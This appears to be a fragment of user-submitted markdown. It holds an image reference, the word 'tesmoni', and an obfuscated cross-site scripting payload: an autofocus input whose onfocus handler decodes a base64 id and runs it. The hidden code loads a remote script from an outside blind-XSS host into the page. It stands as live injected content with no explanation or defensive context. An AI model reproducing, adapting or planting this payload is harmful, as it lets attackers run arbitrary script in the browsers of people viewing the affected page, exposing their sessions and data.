 # tesmoni
">&amp;lt;input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnJlcG9ydC9jL2wiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 autofocus>
